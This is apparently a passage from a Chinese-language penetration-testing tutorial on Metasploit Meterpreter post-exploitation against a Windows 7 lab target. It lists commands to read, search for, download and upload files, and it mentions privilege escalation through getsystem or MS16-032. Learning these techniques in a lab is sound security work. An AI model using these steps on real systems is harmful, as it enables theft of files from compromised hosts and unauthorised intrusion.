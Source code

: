 ![image-20220317151455621](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cwh114rnj20g90h7dje.jpg)

##### 4)查看目标1.txt文件内内容：cat 1.txt



##### 5)搜寻、拷贝、上传文件至目标（需要拥有system权限，可以利用getsystem、MS16-032漏洞进行提权）

搜寻c盘内所有以txt为后缀的文件：`search -f *.txt -d c:\`

拷贝文件至kali内：`download c:\1.txt /root`
上传文件至win7C盘目录下：`upload /home/zidian/msfadmin.txt c:\ `

